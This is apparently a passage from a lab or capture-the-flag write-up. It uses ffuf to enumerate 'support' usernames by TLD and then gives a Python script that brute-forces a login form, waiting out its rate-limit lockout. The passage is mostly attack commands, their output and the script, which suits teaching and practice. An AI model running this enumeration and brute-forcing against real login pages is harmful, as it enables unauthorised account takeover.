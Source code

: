 Found every support tlds:

`ffuf -request ~/request_final_broken -request-proto http -w ~/SecLists/Discovery/DNS/tlds.txt:FUZZ  -fr "user not found"`

If we try to find support users with tlds we get:
```
.cn                     [Status: 200, Size: 1487, Words: 91, Lines: 43, Duration: 118ms]
.gr                     [Status: 200, Size: 1487, Words: 91, Lines: 43, Duration: 188ms]
.it                     [Status: 200, Size: 1487, Words: 91, Lines: 43, Duration: 252ms]
.uk                     [Status: 200, Size: 1487, Words: 91, Lines: 43, Duration: 100ms]
.us                     [Status: 200, Size: 1487, Words: 91, Lines: 43, Duration: 81ms]
```
Since the login has a rate limit, lets build a script to bypass it:

```py
from hashlib import md5
import requests
import sys
import time
from bs4 import BeautifulSoup
import re

url = "http://94.237.57.59:35269/login.php"
fail_text= "Invalid credentials"
too_many = "Too many login failures"

username_file = open(sys.argv[1], "r")
username_list = username_file.readlines()
username_list = [x.strip() for x in username_list]

passwd_file = open(sys.argv[2], "r")
passwd_list = passwd_file.readlines()
passwd_list = [x.strip() for x in passwd_list]

for username in username_list:
	for passwd in passwd_list:

		
		data = {
			"submit": "submit",
        	"userid": username,
        	"passwd": passwd,
        	"rememberme": "rememberme"
    	}
		print("checking {} {}".format(username, passwd))

    	# send the request
		res = requests.post(url, data=data)

		if too_many in res.text:
			soup3=BeautifulSoup(res.text,'html.parser')
			time_string=soup3.find('strong').text
			time_search = re.search("\d+", time_string)
			time_found = int(time_search.group())
			print(f"Waiting {time_found} seconds...")
			time.sleep(time_found)
		else:
			if not fail_text in res.text:
				print(f"[*] Credentials found: user -> {username} pass -> {passwd}")
				



```
